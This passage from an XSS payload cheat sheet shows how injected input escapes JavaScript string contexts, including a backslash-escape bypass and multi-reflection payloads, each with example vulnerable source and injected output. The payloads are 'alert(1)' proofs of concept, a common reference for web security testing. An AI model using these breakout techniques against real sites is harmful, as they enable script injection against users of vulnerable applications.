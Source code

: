 * Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* After input the payload
```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

8. Same like Number 7. But inside a string delimited value but quotes are escaped by a backslash.
```html
\'alert(1)//
```

* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* If we input payload '-alert(1)-' it will be like this
```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```
The quotes are escaped by a backslash so we need to bypass them

* After input the payload
```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

9. Use when there’s multi reflection in the same line of JS code
```html
/alert(1)//\
/alert(1)}//\
```

* Example source code
```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

* After input the payload
```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```
